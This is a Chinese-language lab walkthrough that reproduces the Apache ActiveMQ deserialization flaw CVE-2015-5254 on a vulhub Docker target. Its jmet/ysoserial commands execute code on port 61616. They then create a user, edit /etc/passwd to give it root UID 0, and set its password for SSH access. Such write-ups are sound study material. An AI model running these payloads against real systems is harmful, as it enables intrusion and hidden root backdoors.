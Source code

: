 # 序

采用网上的vulhub的漏洞环境进行复现，直接通过docker部署即可。

# 漏洞介绍

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服
务、集群、Spring Framework等。

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。
远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码
。

# 漏洞复现

## 环境搭建

```bash
docker-compose up -d
```

查看搭建好的docker

```bash
docker ps
```

使用浏览器直接访问activemq，查看是否部署完毕

`http://192.168.221.185:8161/admin/`

默认的用户名/密码为`admin/admin`

![1541062943217](https://github.com/littleheary/vulhub-writeup/blob/master/cve-2015-5254/assets/1541062943217.png?raw=true)

## 漏洞复现

这个漏洞靠的是攻击端口61616来实现，所以其实不需要打开web页面。

1. 构造可执行命令的序列化对象，可以通过ysoserial或jmet来实现。

   下载jmet

   ```bash
   git clone https://github.com/matthiaskaiser/jmet.git
   ```

   或者是直接下载已编译好的jar文件，我这里采用的是直接下载编译好的文件。

   ```
   wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
   ```

   下载完成后，需要在该jar所处的文件夹中新建一个external的文件夹（否则会报文件夹不存在的错误）。

   ```bash
   cd /jmet/
   mkdir external
   ```

   jmet的原理是利用ysoserial生成payload并发送（jmet的jar中自带了ysoserial）。

   执行命令

   ```
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/sucess" -Yp ROME 192.168.221.185 61616
   ```

   ![1541064135350](https://github.com/littleheary/vulhub-writeup/blob/master/cve-2015-5254/assets/1541064135350.png?raw=true)

   然后，我们可以去浏览器中查看这个队列的信息。

   `http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`

   ![1541064180402](https://github.com/littleheary/vulhub-writeup/blob/master/cve-2015-5254/assets/1541064180402.png?raw=true)

   可以发现，队列信息是存在的，然后我们需要点击一下这个页面中的消息，命令方可触发。

   接下来，我们再前往漏洞系统中查看，是否真的创建成功一个文件了。

   ```bash
   docker ps
   
   root@heary-virtual-machine:/baji/vulhub/activemq/CVE-2015-5254# docker ps
   CONTAINER ID        IMAGE                    COMMAND                  CREATED             STATUS              PORTS                                              NAMES
   c5090663fb09        vulhub/activemq:5.11.1   "/bin/sh -c 'bin/act…"   5 seconds ago       Up 3 seconds        0.0.0.0:8161->8161/tcp, 0.0.0.0:61616->61616/tcp   cve20155254_activemq_1
   ```

   我们看到容器的CONTAINER ID是c5开头的。

   ```bash
   docker exec -it c5 /bin/bash
   ```

   成功进入容器的命令行以后，去查看一下刚刚创建的文件是否存在

   ```
   cd /tmp
   ls 
   ```

   ![1541064367530](https://github.com/littleheary/vulhub-writeup/blob/master/cve-2015-5254/assets/1541064367530.png?raw=true)

   可以看到，成功创建了success文件。说明反序列化命令执行成功。

   ## 创建用户

   

   根据上面的情况来看，既然可以执行命令，那么也可以创建用户，让我们试一下。

   执行jmet的命令

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "useradd -g root -s /bin/bash -u 10010 test" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   然后，让我们再将passwd中的test的uid修改为0，使它拥有root权限

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "sed -i "s/test:x:10010/test:x:0/g" /etc/passwd" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   接下来，让我们再为test用户设置一个密码

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "echo "test:123456" | chpasswd" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   到此为止，一个权限为root，密码为123456的用户即创建完毕。我们可以使用ssh直接远程登陆进入操作系统，并且还是最高权限。

   